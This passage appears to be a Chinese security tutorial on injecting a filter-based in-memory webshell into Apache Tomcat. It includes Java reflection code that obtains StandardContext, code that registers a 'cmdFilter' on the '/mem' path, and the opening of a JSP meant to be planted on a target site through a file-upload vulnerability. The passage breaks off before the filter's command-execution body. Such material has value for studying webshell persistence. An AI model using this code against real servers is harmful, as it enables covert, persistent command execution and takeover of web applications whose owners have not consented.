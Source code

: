 <h2 id="AFHVe">实现</h2>
servlet内存马相似，依旧是写马+动态注册

<h3 id="l8hXT">构造思路</h3>
<font style="color:rgb(80, 80, 92);">通过前文分析，得出构造的主要思路如下  
</font><font style="color:rgb(80, 80, 92);">1、获取当前应用的ServletContext对象  
</font><font style="color:rgb(80, 80, 92);">2、通过ServletContext对象再获取filterConfigs  
</font><font style="color:rgb(80, 80, 92);">2、接着实现自定义想要注入的filter对象  
</font><font style="color:rgb(80, 80, 92);">4、然后为自定义对象的filter创建一个FilterDef  
</font><font style="color:rgb(80, 80, 92);">5、最后把 ServletContext对象、filter对象、FilterDef全部都设置到filterConfigs即可完成内存马的实现</font>

<h3 id="RXwTZ">filter内存马的实现</h3>
> 这里是实现代码执行，不对内存马的回显进行分析
>

实现动态注册，首先需要通过反射来获取`StandardContext`（和servlet内存马一样）

```java
  ServletContext servletContext = request.getSession().getServletContext();
  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```

<font style="color:rgb(80, 80, 92);">由前面</font>**<font style="color:rgb(80, 80, 92);">Filter实例存储分析</font>**<font style="color:rgb(80, 80, 92);">得知 </font>`StandardContext`<font style="color:rgb(80, 80, 92);"> Filter实例存放在filterConfigs、filterDefs、filterConfigs这三个变量里面，将fifter添加到这三个变量中即可将内存马打入。</font>

```java
  String filterName = "cmdFilter";

  FilterDef def = new FilterDef();
  def.setFilterName(filterName);
  def.setFilter(shellFilter);
  def.setFilterClass(shellFilter.getClass().getName());

  FilterMap map = new FilterMap();
  map.setFilterName(filterName);
  map.addURLPattern("/mem");

  standardContext.addFilterDef(def);
  standardContext.addFilterMapBefore(map);
  standardContext.filterStart();

  out.println("success");
```

将上述代码整理好后，写入网站上的一个jsp文件中（利用方式：文件上传）

```jsx
<%--
  Created by IntelliJ IDEA.
  User: Andu1n
  Date: 2025/2/19
  Time: 19:33
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
```